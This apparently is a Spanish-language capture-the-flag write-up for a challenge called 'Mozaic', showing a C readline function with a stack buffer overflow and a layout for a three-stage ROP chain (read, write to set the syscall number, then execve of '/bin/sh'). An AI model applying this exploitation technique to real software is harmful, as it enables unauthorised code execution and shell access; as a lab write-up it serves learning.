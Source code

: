 # Mozaic

Se puede hacer ROP usando el buffer overflow aqui que almacena tantos bytes como se entren en `scratch_buffer`:
``` C
void readline(char* buff)
{
    char scratch_buffer[64] = {0};

    while(1){
        read(0, scratch_buffer, 64);
        for(unsigned int i = 0; i < 64; ++i){
            if(scratch_buffer[i] == '\n')
                goto done;
            *buff = scratch_buffer[i];
            ++buff;
        }
    }
done:
    *buff = '\0';
}
```

El ROP va orientado a la direccion de retorno de `loop`, funcion que llama a readline:
```
void loop()
{
    unsigned int exitFlag = 0;
    char buffer[64] = {0};

    while(1){
        write(1, "$> ", 3);
        readline(buffer);
        parseCommand(buffer, &exitFlag);
        if(exitFlag == 1)
            break;
    }
}
```


#### Primer retorno
----------------
SYSCALL READ

end_DATA_ADDR - 0x16 [0x403000] (Buffer, Direccion del banner)

end_DATA_ADDR - 0x8 [1426] (Cantidad de bytes leidos)

end_DATA_ADDR - 0x4 [0] (Descriptor de archivo, stdin)

end_DATA_ADDR 0 [RBP]


#### Segundo retorno
-----------------
SYSCALL WRITE

BANNER_ADDR 0 [Padding]

BANNER_ADDR + 0x40 [0x403000] (Direccion de BANNER_ADDR)

BANNER_ADDR + 0x48 [0x3b] (Numero de bytes a ser escritos, numero de la syscall)

BANNER_ADDR + 0x4C [1] (Descriptor de archivo, stdout)

BANNER_ADDR + 0x50 [RBP]

#### Tercer retorno
----------------
SYSCALL EXECVE

BANNER_ADDR + 0x50 ["/bin/sh\0"]

BANNER_ADDR + 0x58 [BANNER_ADDR + 0x50] (Puntero)

BANNER_ADDR + 0x60 [0] (NULL)

BANNER_ADDR + 0x68 [BANNER_ADDR + 0x58] (Puntero a puntero)

BANNER_ADDR + 0x70 [0] (NULL) 

BANNER_ADDR + 0x74 [BANNER_ADDR + 0x50] (Puntero)

BANNER_ADDR + 0x78 [RBP]
